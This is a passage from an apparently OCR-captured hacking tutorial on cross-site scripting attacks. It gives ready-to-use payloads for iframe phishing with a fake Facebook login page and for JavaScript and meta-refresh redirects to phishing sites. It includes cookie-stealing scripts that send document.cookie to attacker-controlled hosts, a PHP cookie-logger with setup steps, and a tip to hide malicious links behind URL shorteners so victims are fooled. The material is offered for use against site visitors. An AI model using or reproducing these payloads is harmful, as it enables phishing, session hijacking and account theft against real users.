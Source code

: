 `<iframe src="http://192.168.21.130/Facebook – log in or sign up.html" height="100%" width="100%"></iframe>`

$ (Note: height="100%" width="100%" means that the whole window is filled with that iframe.)  
$ The target site will spawn your phishing site in an Iframe, and the website user / victims won't see a difference and log in (If they're are foolish enough).  

 3.) Rediriction Phishing: Similar simple concept, inject a javascript rediriction
$     script that leads to your phishingsite, make sure it looks the same.

$ Example:

  `<script>document.location.href="http://www.yourphishingsite.ru"</script>`

  `<META HTTP-EQUIV="refresh" CONTENT="0; URL="http://www.yorphishingsite.ru">`

  `<img src=x onerror=this.src="http://10.10.10.154/admin/backdoorchecker.php?cmd=dirheck>`

4.) Cookie stealing: A feared XSS flaw.
Can be reflected or stored.

$	  reflected (remember that if an attack does not work, play arouund with different parameters):
		<script> document.write("<iframe src='http://10.10.14.18:8000/test.html?cookie="+document.cookie+"'></iframe>");</script>

$	  Stored:
$     Place this cookiestealer.php in your hoster, and then inject javascript
$     with your cookie stealer script embedded on your target website.

content of cookiestealer.php
```
<?php
$cookie = $HTTP_GET_VARS["cookie"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookie . "nn");
fclose($file);
?>
```
$ Save it as cookiestealer.php and create a 'log.txt' and upload both files
$ on your own webspace, in the same directory and set "chmod 777".

$ Inject the following code in your target website:

    http://www.site.ru/google.php?search=<script>location.href = 'http://192.168.21.130/stealcookie.php?cookie='+document.cookie;</script>

$ Then the victim's cookie (target's website user who visited the url above) should
$ appear in the log.txt.
$ Now you simply need to insert the cookie (with e.g. live http headers firefox addon)
$ and use it.

#############################################################
#                                                           #
# PROTIP FOR EVERY XSS INJECTION:                           #
# use url shortener services such as tinyurl.com or bit.ly  #
# to 'hide' your injection, so the victim won't know what's #
# behind that url.                                          #